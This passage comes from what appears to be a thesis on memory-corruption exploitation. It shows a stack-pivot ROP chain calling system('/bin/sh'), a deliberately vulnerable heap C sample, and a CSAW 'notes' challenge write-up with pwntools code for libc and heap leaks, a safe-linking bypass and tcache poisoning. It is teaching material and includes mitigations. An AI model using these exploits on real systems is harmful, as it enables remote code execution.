        
\includegraphics[width=1\linewidth]{Images/leaked_canary_terminator.png}
        \caption{Canary leaked.}
        \label{fig:leaked_terminator_canary}
    \end{figure}
    As can be deduced from Fig \ref{fig:leaked_terminator_canary} these will be all the bytes that the printf has leaked to us until the arrival of a null byte, these bytes include the canary and the base pointer.\newline
    \clearpage
    In Fig \ref{fig:stack terminator} below we can analyze the state of the stack after the off by one.\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/draw_terminator_stack_canaryleak.png}
        \caption{Stack status after off by one.}
        \label{fig:stack terminator}
    \end{figure}
    
    As you can see the initial canary address \texttt{0x52eb83d416216c000}
    was overwritten in the last byte and became \texttt{0x52eb83d416216c0a}.\newline
    The printf not encountering null bytes either in the contents of the stack canary or in the contents of the save base pointer will print both.\newline
    %ARRIVATO QUA 
    \subsubsection{Stack Pivoting and ASLR bypass}
    Now that we have the stack canary and the base pointer leak, we can move on to the part of the exploit that allows us to execute commands remotely.\newline
    Having NX as a mitigation we cannot write and execute shellcode on the stack so we will write a ROP chain.
    A ROP chain consists of searching inside our binary for assembly instructions which, when chained together, allow us to make syscalls that interest us.\newline
    \clearpage
    We have a tool that helps us search for gadgets called ropper.\newline
    \begin{verbatim}
    shell command used to find gadgets.
    ~/home/ferro/Downloads/terminator ropper --file=terminator
    \end{verbatim}
    This command will give us more than a hundred instructions as output, following is a photo of the section of the most interesting ones.\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/rop_gadget.png}
        \caption{Rop gadgets.}
        \label{fig:enter-label}
    \end{figure}
    
    At this point, we can actually try to pop a shell with a rop chain and do remote command execution, but we would encounter two main problems.\newline
    \begin{itemize}
        \item[Problem 1:] We don't have enough space after the overflow to perform a rop chain.
        \item[Problem 2:] We don't have the base of the libc to bypass aslr.
    \end{itemize}
    So there are two solutions: \newline
    \begin{itemize}
        \item[Solution 1:] Perform a stack pivoting attack.
        \item[Solution 2:] Leak  the libc address.
    \end{itemize}
    \clearpage
    \paragraph{Stack Pivoting}

    When we don't have enough space for the rop chain we can perform an attack called stack pivoting, which consists in manipulating the stack to enlarge the stack that we have available. \newline
    Basically, we fake the rsp register to enlarge the stack, there are many ways to perform stack pivoting, we will find out my version later.\newline
    \paragraph{Leak the Libc base}
    To leak the libc we just need to perform puts with the argument the entry of the libc puts which resides in the got.plt section, and then by doing the following mathematical calculations we will be able to leak it correctly:\newline
    \begin{verbatim}
        base Libc = address function with ASLR - fuction address
        with out ASLR  
    \end{verbatim}
    Follow the exploit code.\newline.
    \begin{verbatim}
                
        pop_rdi=0x4012fb
        puts1=0x84420      
        payload2=flat(
             p64(pop_rdi),
             p64(exe.got.puts)
             p64(exe.sym.puts)
             p64(0x00401292), 
             p64(exe.sym.main),
             b'A'*16,
             p64(real_canary), 
             p64(target_bp), 
        )
        io.sendafter(b">", payload2)
    \end{verbatim}
     We can only perform a \texttt{ROP} chain if the registers contain a net at the end.\newline
    For example, for the libc leak, if we want to do \texttt{puts(got.puts)} we can use the \texttt{pop rdi gadget; ret} so after having written the gadget on the return address we will push the address of puts.got to rdi, and then we will call puts as ret.\newline   
    In this specific case we don't have space to write the rop chain after the return address so previously in addition to the canary I saved the base pointer to overwrite the current base pointer with the value of the previously leaked one -0x68 (size of our stack frame).\newline
    By doing this, when we go to call the return we will perform a stack pivoting so we will move the stack and we will correctly leak the contents of the libc.\newline
    The call that will allow us to do stack pivoting is the leave ret call that is made every time we exit a function.\newline
    Leave ret executes the following instructions mov rsp,rbp; pop rbp; por rdi;\newline
    Subsequently, we will perform the same attack but instead of leaking libc we will perform remote command execution, following is the code that allowed us to launch this attack.\newline
    \begin{verbatim}
    payload2=flat(
        p64(pop_rdi), #start of the rop 
        p64(binsh+base),#address of bin sh + base
        p64(system+base), #address of system + base
        b'A'*32, #fill the remaining space of the buffer
        p64(real_canary), # send the canary to bypass the canary mitigation
        p64(target_bp2),# send the target base pointer 
    )   
    \end{verbatim}
    We will call as return address a call to system("/bin/sh").\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.5\linewidth]{Images/rce_stack_chall.png}
        \caption{Remote Comand execution.}
        \label{fig:enter-label}
    \end{figure}
    \newpage
\chapter{Heap Overflow Vulnerability}
    \section{Background}
        This attack was first documented in 2005 in a paper called malloc Maleficarum, where 5 techniques that are still usable today called: 
       \begin{itemize}
        \item[$\bullet$] house of force
        \item[$\bullet$] house of spirit
        \item[$\bullet$] house of prime  
        \item[$\bullet$] house of lore 
        \item[$\bullet$] house of mind
    \end{itemize}

    have been explained, in this chapter, we will talk about the most famous, house of force which includes a bug called heap overflow, \cite{Heaplab}.
    \clearpage
    
    \section{Malloc internal}
    The next bug that I will show, as can be understood from the name, concerns another section of memory such as the heap that works differently than the stack.\newline
    The heap known as Dynamic memory is a memory that is used for dynamic allocation, this is useful because you don't need to care about the size and the lifetime of the object. \newline
    Furthermore, the heap in languages such as C is manipulated by the user through functions such as malloc() and calloc() that permit you to create a heap memory section usually called chunk, and free() to free your memory.\newline
     \begin{verbatim}
         void *a = malloc(8);
     \end{verbatim}

    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1.1\linewidth]{Images/chunk_structure.png}
        \caption{Chunk in gdb.}
        \label{fig:enter-label}
    \end{figure}
    
    Imagine having this line of code, what is happening in the heap memory?\newline
    The heap will create this chunk where the first quad-word is 0x20 representing the size of the chunk, 0x20 is the minimum size for a chunk, and the pointer to the chunk will be the next quadword "0x4ce770".\newline

    So we can deduce that the heap saves data such as the size inline directly on the heap like the stack does for base pointers, etc.\newline
    The last nibble of the size field is 0x1, which is used to represent flags, in this case, the least significant bit is set indicating prev\_insue.\newline
    The prev\_inuse flags indicate, that if the previous contiguous chunk is used will be set to 1 otherwise 0. \newline
    The last topic to discuss regarding malloc internals is the top chunk.\newline
    Malloc treats that as yet unused heap memory as a single large chunk called top chunk.\newline
    In Fact, every time we request memory from a malloc or calloc function we are stealing a part of the top chunk.\newline
    The value indicated in gdb previously is the remaining space of the heap memory.\newline
    In many glibc versions the top chunk value doesn't have any type of integrity check, this will be the point of the heap overflow.\newline

    
    \section{How Heap Overflow works}
    As explained previously, malloc(), calloc() and realloc() are libc functions that allow you to create portions of dynamic memory called chunks into which data can be inserted dynamically.
    However if these features are used incorrectly, there is a possibility that an attacker will exploit these mistakes to create critical attacks.
    \begin{verbatim}
        void *malloc(size_t size);
        void *calloc(size_t nmemb, size_t size);
        void *realloc(void *ptr, size_t size);
    \end{verbatim}
    These are the definitions of malloc calloc and realloc from the Linux manual, as you can see all the functions require a size, which is often the cause of many heap overflows.
    The following is vulnerable code that shows a misuse of size within these functions:
    \begin{verbatim}
        #include <stdio.h>
        #include <stdlib.h>
        void setup() {
          setbuf(stdin, NULL);
          setbuf(stderr, NULL);
          setbuf(stdout, NULL);
        }
        
        int main(){
            setup();
            puts("Insert your name: ");
        
            char *buf = malloc(100);
            if (buf == NULL) {
                fprintf(stderr, "Error malloc failed, NO INPUT");
                return 1;
            }
            scanf("%s", buf);
            printf("hello %s\n", buf);
        
            free(buf);
            return 0;
        }
    \end{verbatim}
    This code contains a critical bug, as can be seen when user input is entered, scanf is not used correctly, in fact the correct use is to specify \%n-1s in the format string where n is the size of the buffer and minus one is used because scanf add a null byte as a terminator.
    Consequently if the user enters more than 96 characters there will be a heap overflow.\newline
    Potential payload and heap analysis:
    \begin{verbatim}
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    \end{verbatim}
        \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/heap_overflow.png}
        \caption{Heap overflow viewed in gdb.}
        \label{fig:enter-label}
    \end{figure}
    How can we analyze the chunk that we have allocated "buf" is allocated previously compared to the value of the top chunk, so by performing an overflow we will overwrite the value of the top chunk with the value \texttt{0x4141414141414141}
    the heap will think that the size of the remaining heap will be an arbitrary number.\newline
    At this point the program will not crash because at the time I am writing this thesis no type of integrity check on the size of the top chunk has been implemented, this allows us to create arbitrary write.
    \clearpage
    \paragraph{Craft arbitrary write}
    In the world of exploitation, there is a constant effort to achieve arbitrary writes and arbitrary reads.\newline
    Arbitrary read permits us to read addresses that allow us to bypass mitigations such as aslr, canary. \newline
    Arbitrary writes to overwrite addresses that lead us to have remote command execution.
    In the case of the example shown above we have no print source so crafting an arbitrary read is impossible but in larger and more complicated systems they can be found. \newline
    But we have an arbitrary writing source, we can overwrite the size of the top chunk making it giant, and managing to overwrite the libraries and stack sections to overwrite sensitive data.
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/heap_trasformation.jpg}
        \caption{Heap after overwriting top chunk.}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
    \section{Mitigation}
    Unfortunately, the house of force technique, even if I decided to explain it previously, has been deprecated since the glibc version 2.27, at the time of writing this thesis we are at 2.35 and many mitigations have been added that prevent the use of the house of force technique.\newline
    Inside the heap, many mitigations have been added within the glibc to avoid launching attacks, in this section we will only analyze those related to the house of force and in the next section bypass techniques will be explained.\newline
    As explained previously, house of force consists of overwriting the top chunk to make it huge, exceeding the heap memory, and being able to read/overwrite the entry that will allow us to do RCE.\newline
    \subsection{Top Chunk integrity check}
    Overwriting the top chunk with a size larger than that established by the creation of the heap is impossible, in fact, this portion of code has been added within the code, we can find this code on elixir.bootlin \cite{elixir.bootlin}:\newline
    \begin{verbatim}
        victim = av->top;
        size = chunksize (victim);
    
        if (__glibc_unlikely (size > av->system_mem))
            malloc_printerr ("malloc(): corrupted top size");
  
    \end{verbatim}
    This code, as you can imagine, even if the rest of the code is absent, carries out a check on the size of the chunk, in fact if we try to create a chunk that overwrites the top and subsequently create another allocation on the heap will be print the string, "malloc( ): corrupted top size".
    \subsection{Safe Linking}
    The fundamental idea of safe linking is to mask the addresses within the linked lists that manage fastbin and tcache bins, \cite{Bypassingsl}.\newline
    The technique that exploits safe linking uses ASLR mitigation which I explained in the stack buffer overflow mitigations chapter.\newline
    The forward pointer inside the fastbin and tcache bins from glibc version 2.32 will be XOR'd with the bits randomized by aslr.
    This mitigation does not allow attackers to have a clean pointer to the list of freed chunks.
    A hypothetical situation could be: \newline
    p : represents the value of the pointer that is saved by the fd field.\newline
    l : represents the address space where the fd is stored.\newline
    \( l \gg 12 \):  shifted right by 12 is used to XOR P resulting in an encoded pointer, P'.\newline
    Below is an example written in Python that explains how safe linking masking and unmasking works: \newline
    \begin{verbatim}

    p = 0x0000BA9876543180
    l = 0x0000BA9876543180
    x = x = p ^ (l>>12) # 
    print("masked ptr: ", hex(x))
    lbitshifted = l >> 12 
    y = x ^ lbitshifted
    print("unmasked ptr: ", hex(y))
    \end{verbatim}
    \clearpage
        
    \section{How to exploit a heap overflow and demonstration of a challenge}
    \subsection{Introduction}
    In this section we will analyze a challenge that I solved during the csaw qualifier competition, a competition organized by an American team where the top 8 teams went to New York to play the finals.\newline
    In the challenge we will analyze there is a heap overflow bug, the name of the challenge is notes. \newline
    \subsection{Understand The Environment}
    In the challenge comes attachment that contains an x86\_64 ELF binary and the libc.so.6 file, no source code is provided that means we have to decompile the ELF file and analyze it with ida or ghidra.\newline
    The first step is to try to extrapolate what glibc is about so as to understand what mitigations and heap structure we are facing, following the commands with which I understood it:
    \begin{verbatim}
        command:
        strings libc.so.6 | grep GLIBC | less
        output:
        GNU C Library (Ubuntu GLIBC 2.35-3ubuntu1.6) 
        stable release version 2.35.
    \end{verbatim}
    As you can see, we are talking about a glibc version 2.35, this implies that we will not be able to use the classic house of force technique because the safe linking and top chunk integrity check mitigations will be active.\newline
    The second step is to understand the mitigations applied by the kernel as in the case of stack buffer overflow we will use the checksec command of pwntools   .\newline
    \clearpage
    \begin{verbatim}
        command:
        checksec chall
        outout:
        [*] '/home/ferro/Documents/tesi/thesis/chall_heap/chall'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    \end{verbatim}
    As you can see all the mitigations are enabled, but in the heap case we have to care only about PIE, ASLR, and FULL RELRO we wont deal with stack canary.
    \subsection{Reverse Engineering}
    The logic of the binary is very simple, it allows you to add, modify, view, remove notes, it is managed via an array of stuct that keeps track of the size of the note and a pointer to the chunk that will be allocated.\newline
     Analyzing the binary better, the function that allows you to edit a note contains a critical bug, follows the image of the editNote function.\newline
     \begin{figure}[htbp]
         \centering
         
\includegraphics[width=1\linewidth]{Images/heap_chall_bug.png}
         \caption{Vulnerable function.}
         \label{fig:enter-label}
     \end{figure}

    As you can see when the input to be inserted is requested to modify the previously allocated note, the read function is used in a vulnerable way, after having applied some techniques and details in the field of reverse engineering, we can interpret the call to read like this:
    \begin{verbatim}
    read(0,note[edit_index]->text,note[edit_index]->size+16);
    \end{verbatim}
    Obviously, since we cannot change the size inside the memory we have the possibility of reading sixteen more characters inside the heap, allowing the attacker to perform a heap overflow.\newline
    The other functions such as createNote, deleteNote and viewNote seem to be implemented correctly without bugs, for this reason I decided not to show them.
    \subsection{Exploit Development and Testing}
    In this section we will talk about how to exploit a buffer overflow with chunk creation, edit chunk, view chunk, delete chunk primitives.\newline
    The first thing I did is create the exploit.py file and import pwntools, a library that allows me to send and receive bytes from the program, the code follows.
    \begin{verbatim}
    def malloc(size,index):
        io.sendline(b"1")
        io.sendlineafter(b"index:",str(index).encode())
        io.sendlineafter(b"size:",str(size).encode())
    def edit(index,content):
        io.sendline(b"2")
        io.sendlineafter(b"Index:",str(index).encode())
        io.sendafter(b"content:",content)
    def view(index):
        io.sendline(b"3")
        io.sendlineafter(b"Index:",str(index).encode())
    def delete(index):
        io.sendline(b"4")
        io.sendlineafter(b"Index:",str(index).encode())
    \end{verbatim}
    In the code above we can see two functions implemented by the pwntools library, both will send the input as bytes but sendlineafter allows you to do this after a string that the output generates.\newline
    \clearpage
    \paragraph{leak libc base}
    the first step is to leak the libc base \newline
    There is a trick that allows you to leak the libc, which consists in allocating a chunk of very large size that is not freed in the tcache, in fact if we perform a free of a chunk that does not end up in the tcache (size greater than 0x408) we will have the fd field of our chunk pointing to libc.\newline
    If we are going to free an unsortedbin this will point to a pointer of the main arena, which will contain a pointer to libc.\newline
    The main arena is a structure that has the task of managing the heap, saving values such as top chunk, last reminder, heap start and heap and many other fields.\newline

    Below is the code that allows us to leak libc base and bypass safe linking.\newline

    \begin{verbatim}     
    malloc(0x500,0)
    malloc(0x60,1)
    delete(0)
    pause()
    malloc(0x500,0)
    view(0)
    io.recvuntil("note : ")
    libc_addr=u64(io.recvline(False).ljust(8,b"\x00"))
    libc_addr=libc_addr-0x21ace0
    libc.address=libc_addr
    \end{verbatim}
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/leak_libc_heap_chall.png}
        \caption{Leak libc.}
        \label{fig:enter-label}
    \end{figure}
    As you can see at address \texttt{0x55671813e2c0} we have a pointer to libc, at this point we just need to reallocate chunk of the same size and view it, malloc will not clean the contents of the freed chunk allowing us to leak a pointer to libc. \newline
    \paragraph{leak heap base and safe linking bypass}
    As regards heap leak, the same technique used previously is used but with the difference that the victim chunk will be of a size that allows us to insert it into the tcache after it is freed.\newline
    In fact, the tcache creates a FIFO list of freed chunks for each chunk size which will be incremented by 0x10.\newline
    the code follows:
    \begin{verbatim}
    #lek heap and safe linking
    malloc(0x90,2)
    delete(2)
    malloc(0x90,2)
    view(2)
    io.recvuntil("note : ")
    key=u64(io.recvline(False).ljust(8,b"\x00"))
    heap_base = key<<12
    success(f"SAFE LINKING KEY LEAK@: {hex(key)} ")
    success(f"HEAP BASE LEAK@: {hex(heap_base)} ")
    delete(1)
    delete(2)
    \end{verbatim}
    As you can see, we allocate a chunk of size 0x90 and make this free, after we reallocate it we will have a heap leak.\newline
    As regards the safe link bypass, the leak that we will generate will be the key that we will need to bypass the mitigation, in fact by performing an xor operation between the key and the pointer on the heap any address on the heap will bypass safe linking.\newline
    Finally, by shifting the key to the right we will have the base of the heap.
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/leak_heap_heap_chall.png}
        \caption{Heap leak.}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
    \paragraph{craft arbitrary read and leak environ with tcache poisoning attack}
    At this point we have all the leaks, in most heap exploits you need to craft arbitrary read and write, with these two techniques it is possible to perform many attacks.\newline
    First we will create an arbitrary read to leak the environ.\newline
    Environ is a pointer that usually points to the stack and is useful because it will always be at the same offset away from the return addres.\newline
    So the plan is to leak environ so as to understand how far away we are from the return address and then overwrite the return address with a rop and do remote command execution.\newline
    The technique we will use to leak environ is very reminiscent of the one to leak base heap.\newline
    In fact we can allocate two chunks with a size that will allow us to place them in tcache once they are freed and contiguous,  having 16 bytes of overflow we will be able to overwrite the size of the next previously freed one and overwrite the fd field with the environ address.\newline
    Then reallocate the chunk and inspect it, thus effectively leaking the environ.\newline
    Below is the code that allowed me to leak environ:\newline
    \begin{verbatim}
        malloc(0x78,3) # 3
        malloc(0x78,4) # 4 
        malloc(0x78,5) # 4 
        delete(5)
        delete(4) # 4
        edit(3,b"A"*0x78+p64(0x81)+p64(libc.sym.environ^key))
        malloc(0x78,4)  
        malloc(0x78,5) 
        view(5)
        io.recvuntil(b"note : ")
        environ=u64(io.recvline(False).ljust(8,b"\x00"))
        success(f"ENVIRON LEAK@: {hex(environ)} ")
    \end{verbatim}
      \clearpage
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/arb_read_heapchall.png}
        \caption{Stack state arbitrary read.}
        \label{fig:arb_read}
    \end{figure}

    
      The fig \ref{fig:arb_read} explains the attack we just saw.\newline
    Furthermore, within the code provided, it will be noticed that there are more allocations than those explained in the theoretical attack.\newline
    In fact a critical point of heap exploitation is consolidation, glibc has optimization and memory saving techniques that if larger chunks than those previously used are allocated, the smaller ones will be consolidated.
    In this case we founded that environ it's faraway 0x120 bytes from main return address.\newline
    \clearpage
    \paragraph{craft arbitrary write and rewrite return address with tcache poisoning attack}
    At this point all we have to do is overwrite \texttt{environ + 0x120}, therefore the return address.\newline
    Arbitrary write works in the exact same way as arbitrary read but with the difference that instead of inspecting the function to leak any pointers, we have to write, so instead of the viewNote function we will use editNote.\newline
    So as before we will create two chunks with size which will allow us to stay inside tcache, free the second to exploit the first so as to overwrite the size field with a fake size and the fd field with environ + 120 which corresponds to the return address.\newline
   
    Follows the code that i used:\newline
    \begin{verbatim}
        malloc(0x18,1)
        malloc(0x18,2)
        malloc(0x18,3)
        delete(1)
        delete(2)
        delete(3)
        malloc(0x108,3) # 3
        malloc(0x108,4) # 4 
        malloc(0x108,5) # 4 
        delete(5)
        delete(4) # 4
        edit(3,b"B"*0x108+p64(0x111)+p64((environ-0x128)^key))
        malloc(0x108,4)  
        malloc(0x108,5)
    \end{verbatim}
    From this portion of code you can see how in addition to having created arbitrary write we are bypassing safe linking by xoring the environ address with the key leaked at the beginning of the exploit.\newline
    \clearpage
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.8\linewidth]{Images/arb_write_heapchall.png}
        \caption{Arbitrary write.}
